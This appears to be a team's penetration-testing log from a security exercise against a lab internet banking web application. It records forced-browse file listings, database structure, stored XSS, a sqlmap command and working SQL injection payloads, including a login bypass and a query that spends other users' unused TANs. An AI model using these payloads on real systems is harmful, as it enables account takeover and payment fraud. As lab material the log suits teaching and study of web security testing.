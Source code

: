 # Vulnerability log for Team 4

## Directory structure

### Using ZAP

#### Forced Browse
With a forced browse on /InternetBanking/, we get a quite long list of files. As some PHP files do not have the .php file suffix, they get downloaded instead. Also, the source code for the parser is included in the directory.

```
http://nuc:8085/InternetBanking/
http://nuc:8085/InternetBanking/DataAccess/
http://nuc:8085/InternetBanking/auth/
http://nuc:8085/InternetBanking/client/
http://nuc:8085/InternetBanking/controller/
http://nuc:8085/InternetBanking/controller/clientController.php
http://nuc:8085/InternetBanking/controller/clientFunctions.inc
http://nuc:8085/InternetBanking/controller/employeeController.php
http://nuc:8085/InternetBanking/controller/employeeFunctions.inc
http://nuc:8085/InternetBanking/controller/loginController.php
http://nuc:8085/InternetBanking/controller/logoutController.php
http://nuc:8085/InternetBanking/controller/registrationController.php
http://nuc:8085/InternetBanking/css/
http://nuc:8085/InternetBanking/css/bootstrap-theme.css
http://nuc:8085/InternetBanking/css/bootstrap-theme.css.map
http://nuc:8085/InternetBanking/css/bootstrap-theme.min.css
http://nuc:8085/InternetBanking/css/bootstrap.css
http://nuc:8085/InternetBanking/css/bootstrap.css.map
http://nuc:8085/InternetBanking/css/bootstrap.min.css
http://nuc:8085/InternetBanking/employee/
http://nuc:8085/InternetBanking/fonts/
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.eot
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.svg
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.ttf
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff2
http://nuc:8085/InternetBanking/index/
http://nuc:8085/InternetBanking/js/
http://nuc:8085/InternetBanking/js/bootstrap.js
http://nuc:8085/InternetBanking/js/bootstrap.min.js
http://nuc:8085/InternetBanking/js/npm.js
http://nuc:8085/InternetBanking/login/
http://nuc:8085/InternetBanking/logout/
http://nuc:8085/InternetBanking/model/
http://nuc:8085/InternetBanking/model/Payment.class
http://nuc:8085/InternetBanking/model/PaymentRequest.class
http://nuc:8085/InternetBanking/model/User.class
http://nuc:8085/InternetBanking/model/UserRequest.class
http://nuc:8085/InternetBanking/parser/
http://nuc:8085/InternetBanking/parser/Makefile
http://nuc:8085/InternetBanking/parser/exec
http://nuc:8085/InternetBanking/parser/main.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.h
http://nuc:8085/InternetBanking/registration/
http://nuc:8085/InternetBanking/view/
http://nuc:8085/InternetBanking/view/account.inc
http://nuc:8085/InternetBanking/view/accounts.inc
http://nuc:8085/InternetBanking/view/approvepayments.inc
http://nuc:8085/InternetBanking/view/approveregistrations.inc
http://nuc:8085/InternetBanking/view/client.inc
http://nuc:8085/InternetBanking/view/employee.inc
http://nuc:8085/InternetBanking/view/file.inc
http://nuc:8085/InternetBanking/view/history.inc
http://nuc:8085/InternetBanking/view/historypdf.inc
http://nuc:8085/InternetBanking/view/login.inc
http://nuc:8085/InternetBanking/view/online.inc
http://nuc:8085/InternetBanking/view/registration.inc
```

### Noted behaviour

This list is very incomplete.

```
login.php - Login page and login execution
  Executes login when username and password specified in POST.

registration.php
  POST username=a1&email=&password=Aa1234%2F&passwordconf=Aa1234%2F&accounttype=client

client.php - Client sites
  GET action=account,history,historypdf,online,file
  Online: POST receipt=t1&amount=1&purpose=fdsgfdsg&trancode=r3bIvzE9JFLWpDd

employee.php - Employee main site
  GET action=accounts,approvepayments,approveregistrations,history,historypdf
  Approve regs: POST requestid, approve={reject,approve}
  History, history PDF: GET account

logout.php - Logout
```

## Database structure

With the brute force script, we get the following results:

```
Table payment: id, trancode, payer, receipt, amount, purpose
Table user: id, balance, email, username, password, isemployee
Table userrequest: id, email, username, password, isemployee
Table paymentrequest: id, trancode, payer, receipt, amount, purpose
Table trancode: id, clientid
```

## Login

### Using ZAP

#### Stored XSS Vulnerabilities

In registration: Fuzz the username using "jbrofuzz / XSS / XSS 101"
This can also be applied to the transaction description.

Consequence: The site of an employee can be completely destroyed, or one can ask for username and password of the employee with a rebuilt login form, etc.


#### SQL injection

In login: Fuzz the username using "jbrofuzz / SQL Injection / SQL Injection"
The last entry (  anything' OR 'x'='x  ) will login the attacker as "anything" (if the user exists) or as the first user where the password matches.

## Transaction HTML form

### Using SQLmap

Attacking the transaction form did not lead to any vulnerabilities from SQLmap:

```
sqlmap -u 'http://vm/InternetBanking/client.php?action=online' --data='receipt=t1&amount=1&purpose=sqli&tancode=te' --level=5 --risk=3 --text-only --cookie='PHPSESSID=8fqb4ba3cd322t4u13k1g2qhv4'
```

## File upload

### Manual testing
not, because the tools wouldn't be able to do that, but because the things are too special for general tools.

Note that stacked SQL queries appear to be not supported.

It looks like SQL errors end up in an immediate program exit, so we don't get "success" or "fail" displayed, except in the comment entry where success is always displayed. To check, one has to go to the history page and check whether the transaction appears there.

#### Finding database columns

Append  `" GROUP BY <colname> HAVING "1"="1`. It will say nothing, if the column does not exist.


#### Perform transaction without TAN (SQL injection)

In the TAN line, the parser apparently stops scanning the line after the first whitespace. This makes things more difficult, but not impossible:

```
"OR(NOT(`id`IN(SELECT`trancode`FROM`payment`)))AND(NOT(`id`IN(SELECT`trancode`FROM`paymentrequest`)))AND"x"="x
```

This was found by manual testing and will use any unused TAN of any user. Potentially, the TANs of all users could be compromised.
